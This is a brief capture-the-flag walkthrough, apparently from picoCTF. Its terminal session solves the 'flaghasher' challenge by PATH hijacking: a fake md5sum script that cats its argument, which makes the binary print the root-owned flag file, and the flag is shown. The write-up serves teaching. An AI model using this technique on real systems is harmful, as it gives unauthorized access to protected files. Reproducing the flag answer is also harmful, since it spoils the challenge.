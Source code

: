 write a fake md5sum in my own home that just cats $1

ctf-player@pico-chall$ ls
flaghasher
ctf-player@pico-chall$ echo '#!/bin/bash' > ~/md5sum
ctf-player@pico-chall$ echo 'cat "$1"' >> ~/md5sum
ctf-player@pico-chall$ chmod +x ~/md5sum
ctf-player@pico-chall$ PATH=~/:$PATH ./flaghasher
Computing the MD5 hash of /root/flag.txt....

picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_63a87fa9}ctf-player@pico-chall$
